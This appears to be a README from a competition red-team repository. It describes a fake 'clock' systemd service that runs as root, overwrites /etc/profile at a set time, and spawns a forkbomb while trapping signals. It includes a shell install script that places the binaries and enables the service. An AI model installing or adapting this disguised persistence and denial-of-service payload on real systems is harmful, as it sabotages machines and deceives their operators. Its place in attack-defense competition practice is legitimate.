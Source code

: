 # Clock Service "Randsomware"

The premise of this attack is to have a clock service trigger at a certin
time of the competition. 

This service will call `/usr/local/bin/clock` as the root user, which simply
keeps track of the time. At the moment of the trigger, Nov 16th, 12:00 EST, the
service will overwrite `/etc/profile` with our dumb `/etc/profile`. This prompt
will be hidden as a binary in `/usr/local/bin/lib` and spit out a forkbomb when
the password has failed to trigger. It also traps several signals to be super
annoying.

#### Directions: 

`cat install.sh` 

```
#!/bin/bash

# Make the binaries
make

# copy output binaries to their final destinations
sudo cp clock /usr/local/bin/
sudo cp clock.sh /usr/local/bin/
sudo cp clocklib /usr/local/lib
sudo cp profile /usr/local/bin/

# set the service for your distro (systemd)
sudo cp clock.service /etc/systemd/system
sudo systemctl enable clock 
```

#### Notes: 

* The attack payload must be compiled on the attacking target

